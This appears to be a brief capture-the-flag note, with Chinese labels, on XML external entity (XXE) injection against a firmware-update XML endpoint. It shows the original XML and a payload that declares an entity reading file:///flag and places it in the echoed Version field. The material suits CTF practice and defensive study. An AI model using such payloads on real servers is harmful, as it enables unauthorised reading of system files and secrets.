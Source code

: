 xxe调用外部实体
原本：
<FirmwareUpdateConfig>
 <Firmware>
 <Version>1.33.7</Version>
 </Firmware>
</FirmwareUpdateConfig> 服务器返回version被配置

Payload
<!DOCTYPE root [
<!ENTITY xxe SYSTEM "file:///flag">
]>
<FirmwareUpdateConfig>
 <Firmware>
 <Version>&xxe;</Version>
 </Firmware>
</FirmwareUpdateConfig>
